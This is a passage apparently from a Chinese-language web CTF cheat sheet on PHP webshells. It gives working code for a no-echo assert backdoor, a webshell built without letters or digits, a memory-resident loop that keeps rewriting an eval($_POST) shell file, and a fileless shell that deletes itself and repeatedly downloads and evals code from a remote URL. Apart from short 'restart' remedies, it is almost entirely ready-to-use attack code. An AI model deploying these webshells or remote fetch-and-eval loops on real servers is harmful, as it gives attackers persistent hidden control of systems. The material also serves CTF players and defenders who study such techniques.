 ```php
phpinfo();
ob_end_clean();
?>

<?php 
// 無回顯後門  
// e.g. ?pass=file_get_contents('http://kaibro.tw/test')
ob_start('assert');
echo $_REQUEST['pass'];
ob_end_flush();
?>

<?=
// 沒有英數字的webshell
$💩 = '[[[[@@' ^ '("(/%-';
$💩(('@@['^'#!/')." /????");


A=fl;B=ag;cat $A$B

```

### webshell駐留記憶體

解法：restart
```php
<?php
    ignore_user_abort(true);  // 忽略連線中斷
    set_time_limit(0);  // 設定無執行時間上限
    $file = 'shell.php';
    $code = '<?php eval($_POST[a]);?>';
    while(md5(file_get_contents($file)) !== md5($code)) {
        if(!file_exists($file)) {
            file_put_contents($file, $code);
        }
        usleep(50);
    }
?>

```

### 無文件webshell

解法：restart
```php
<?php  
    unlink(__FILE__);  
    ignore_user_abort(true);  
    set_time_limit(0);  
    $remote_file = 'http://xxx/xxx.txt';  
    while($code = file_get_contents($remote_file)){  
        @eval($code);  
        sleep(5);  
    };  

?>  
```
